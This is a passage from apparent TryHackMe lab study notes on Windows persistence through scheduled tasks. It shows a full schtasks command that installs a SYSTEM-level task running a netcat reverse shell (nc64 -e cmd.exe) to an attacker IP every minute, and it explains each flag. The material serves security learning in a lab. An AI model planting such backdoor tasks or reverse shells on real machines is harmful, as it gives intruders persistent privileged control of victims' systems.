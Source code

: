 ##### 7. Received shell on the Attacker's machine:

![](/assets/img/Pasted image 20230107203937.png)

##### Getting the flag:

![](/assets/img/Pasted image 20230107204015.png)

-------------
# Abusing Scheduled Tasks

- We can also use scheduled tasks to establish persistence if needed.
- There are several ways to schedule the execution of a payload in Windows Systems.

### Task Scheduler

- The most common way to schedule tasks is using the built-in `Windows Task Scheduler`.
- The `task scheduler` allows for **granular control** of when your task will start, allowing you to configure tasks that will:

		- activate at specific hours
	    - repeat periodically, 
	    - or even trigger when specific system events occur.

- Interacting with the `task scheduler` using : `> schtasks ...`
- Reference for this command: `https[:][/][/]docs[.]microsoft[.]com/en-us/windows-server/administration/windows-commands/schtasks`

##### 1. Create a task that runs a reverse shell every single minute:

- **Note**: In the real world, you might not want to run your payload so often.

`> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe 10.10.65.100 4449" /ru SYSTEM`

	Breakdown:
	- "/create" : create a new scheduled task
	- "/sc minute" : specifies the frequency at which the task should run. In this case, the task will run every minute.
	- "/mo 1" : specifies the number of times the task should run, which in this case, the task will run only once every minute.
	- "/tn THM-TaskBackdoor" : specifies the NAME of the task. TN == "Task Name". The task's name is "THM-TaskBackdoor".
	- '/tr "c:\tools\nc64 -e cmd.exe 10.10.65.100 4449"' : specifies the task to be executed. TR == "Task Run". In this case, it will run the binary 'nc64.exe' and execute 'cmd.exe' connecting to IP address 10.10.65.100 to port '4449'.
	- '/ru SYSTEM' : specifies the user account to run under. RU == "Run Under" which in this case is account "SYSTEM". This means that this whole command will be executed with the highest privilege in the Windows System.
 
<u>Output</u>:
